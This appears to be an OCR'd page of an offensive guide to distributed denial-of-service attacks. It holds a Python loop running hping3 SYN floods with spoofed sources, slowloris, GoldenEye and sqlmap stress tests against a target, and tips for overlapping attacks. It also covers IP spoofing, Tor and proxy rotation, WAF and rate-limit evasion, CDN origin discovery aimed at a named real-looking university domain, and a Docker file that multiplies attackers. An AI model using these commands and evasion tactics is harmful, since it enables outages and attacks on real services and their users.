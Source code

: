       target_ip = "target_ip"
      target_domain = "target_domain"
      attacks = [
          (f"hping3 -S -p 80 --flood --rand-source {target_ip}", 10),
          (f"slowloris -dns {target_domain} -port 80 -num 500", 10),
          (f"goldeneye.py http://{target_domain} -w 100 -s 500", 10),
          (f"sqlmap -u http://{target_domain}/news?id=123 --stress --threads=10", 10)
      ]
      for cmd, dur in attacks:
          print(f"Running: {cmd}")
          run_attack(cmd, dur)
    ```

  - **Efficiency Tips** :
  - Use multiple VMs or Docker containers to distribute attack sources.
  - Time attacks to overlap slightly for maximum load.
  - Monitor server response with `curl` or Wireshark to adjust timing.
  - **Defense Bypass** :
  - Multi-vector attacks confuse AI-based anomaly detection.
  - Pulsing evades thresholds for sustained traffic.

  ## 5. Smart Evasion Tactics

  - **IP Spoofing** :
  - Use `hping3 --rand-source` or Scapy to spoof IPs.
  - Rotate source IPs with proxies or Tor:

    ```bash
    proxychains slowloris -dns <target_domain> -port 80 -num 500
    ```

  - **WAF Evasion** :
  - Randomize headers/user-agents in GoldenEye or Python scripts.
  - Use HTTP/2 in Slowloris to exploit parsing weaknesses.
  - Encode payloads in `sqlmap` with `--tamper=randomcase,space2comment`.
  - **CDN Bypass** :
  - Find origin IP with `dnsdumpster` or `subbrute`:

    ```bash
    subbrute.py znu.ac.ir > subdomains.txt
    ```

  - Target origin directly with `hping3` or GoldenEye.
  - **Rate-Limiting Evasion** :
  - Slow down requests (e.g., `sleep 2` in scripts).
  - Distribute attacks across multiple IPs using Docker:

    ```yaml
    version: "3"
    services:
      attacker:
        image: kalilinux/kali-rolling
        command: slowloris -dns target_domain -port 80 -num 100
        deploy:
          replicas: 10
    ```
